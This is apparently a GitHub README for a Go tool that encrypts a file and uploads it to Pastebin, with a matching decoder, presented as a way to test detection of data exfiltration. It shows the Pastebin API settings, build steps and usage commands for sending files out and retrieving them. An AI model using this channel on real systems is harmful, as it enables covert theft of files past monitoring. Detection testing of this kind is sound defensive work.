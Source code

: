 #  file encryption and send to Pastebin

this is the simple program that testing for detection to taking out file 

change this section to your pastebin API key
```
// Pastebin API setting
const (
	pastebinAPIURL   = "https://pastebin.com/api/api_post.php"
	pastebinAPIKey   = "<YOUR API KEY>" // Pastebin API Key
	pastebinUserKey  = ""                     // option <login users key>
	pastebinPrivate  = "1"                    // 0=pub, 1=invisible, 2=private
	pastebinOption   = "paste"                // API option; paste
)


```


build:
  ```
  go build encode.go
  go build decode.go
  ```

usage:
  ```
[encode and send]
  ./encode <file>

[decode and get]
  ./decode https://pastebin.com/<PATH> <output file>
  ```

example:

![image](https://github.com/user-attachments/assets/92745951-62ca-4dda-afc9-ecbc0a8ad58f)

![image](https://github.com/user-attachments/assets/5833914e-24dc-430d-a1f1-74a7718a9402)

![image](https://github.com/user-attachments/assets/e6ebd9df-e52d-4fe5-8be8-69f93952a73a)




